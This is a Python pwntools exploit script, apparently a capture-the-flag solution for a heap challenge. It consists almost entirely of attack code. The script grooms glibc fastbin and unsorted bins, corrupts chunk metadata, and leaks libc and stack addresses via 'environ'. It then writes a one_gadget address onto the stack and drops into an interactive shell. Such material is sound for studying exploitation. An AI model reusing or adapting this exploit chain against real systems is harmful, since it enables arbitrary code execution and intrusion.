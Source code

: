 ```python
sh.recvuntil("Daimyo, nani o shitaidesu ka?\n")
sh.send("3\n")
#use samurai to put malloc hook to 0

sh.recvuntil("Brood mother, what tasks do we have today.\n")
create(0x10, "fastbin") #0
create(0x10, "fastbin") #1
delete(0)
delete(1)
#prepare some 0x20 fastbin

create(0x210, "a") #2
create(0x100, "c") #3
create(0x100, "padding") #4

delete(2)
create(0x108, "a" * 0x108) #5
#0x111 -> 0x100
#0x20 fastbin *1

create(0x80, "b1") #6
create(0x100 - 0x90 - 0x20 - 0x10, "b2b2b2b2b2b2b2b2") #7

delete(6)
delete(3)
#0x221 unsorted bin
#0x20 *2

create(0xa0, "consume unsorted + leak") # 8
libc_addr = u64(editidx(7) + "\x00\x00") - UNSORTED_OFF
print hex(libc_addr)
delete(8)
#recover to 0x221 unsorted bin
#0x20 *2

create(0xa0, "A" * 0x88 + p64(0x21) + p64(libc_addr + e.symbols["environ"]) + p64(0xdeadbeef)) # 9
stack_addr = u64(editidx(7) + "\x00\x00")
print hex(stack_addr)
delete(9)
#leak = 0xe58

#0xd48 -> one_gadget 0x30
create(0xa0, "A" * 0x88 + p64(0x21) + p64(stack_addr - 0xe58 + 0xd48) + p64(0xdeadbeef)) # 10
editidx(7, p64(libc_addr + ONE_GADGET_OFF))
delete(10)


#0xd80 -> 0
create(0xa0, "A" * 0x88 + p64(0x21) + p64(stack_addr - 0xe58 + 0xd80) + p64(0xdeadbeef)) # 11
editidx(7, p64(0))
delete(11)

sh.interactive()
```

